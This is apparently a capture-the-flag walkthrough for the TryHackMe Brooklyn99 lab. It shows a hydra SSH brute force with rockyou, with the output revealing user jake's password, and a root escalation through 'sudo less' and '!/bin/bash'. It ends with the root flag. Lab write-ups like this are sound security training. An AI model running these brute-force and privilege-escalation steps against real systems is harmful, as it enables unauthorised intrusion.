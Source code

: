 #   Tryhackme - Brooklyn99 CTF

##  IP = 10.10.197.165
##  Walkthrough by
```
Shaswata Saha
11-07-23
12:58AM
```

##  Steps followed
1.  Nmap scan

2.  gobuster scan

3.  We find the note_to_jake.txt file where we find that his password is weak. Let's brute force it!
```bash
hydra -l jake -P Documents/rockyou.txt ssh://10.10.197.165
```

We got the password!
```bash
┌──(subhro1530㉿subhro)-[~]
└─$ hydra -l jake -P Documents/rockyou.txt ssh://10.10.197.165

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-11 02:26:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.197.165:22/
[22][ssh] host: 10.10.197.165   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-11 02:27:39
                                                                                     
```

4.  After going to the ssh, we get the user.txt file.

5.  Less which is a file pager (that is, a memory-efficient utility for displaying text one screenful at a time). Less has many more features than the basic pager “more”. If you’ve interacted with less more you probably know that you can execute a shell while you are using less by just passing the argument
```bash
!/bin/bash
```
If you didn’t know that you couls use a cheatsheet called [GTFOBins](https://gtfobins.github.io/gtfobins/less/#sudo)

6.  Just by searching less we get possible cheatsheet

7.  I clicked on sudo and got the commands i was to run

8.  The file to open doesn't necessarily have to be profile you can open any file. So i created a file called nano.txt and opened it with less. After i had opened the file i typed the command that will spawn a shell:
```bash
!/bin/bash
```
Then pressed enter

9.  And voila we had a root shell on the box

10. Now we can get both the user and root flag submit them and get our points
```bash
jake@brookly_nine_nine:/$ sudo less /etc/profile
root@brookly_nine_nine:/# ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
root@brookly_nine_nine:/# cd /root
root@brookly_nine_nine:/root# ls
root.txt
root@brookly_nine_nine:/root# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
root@brookly_nine_nine:/root# 
```
We hacked the root..!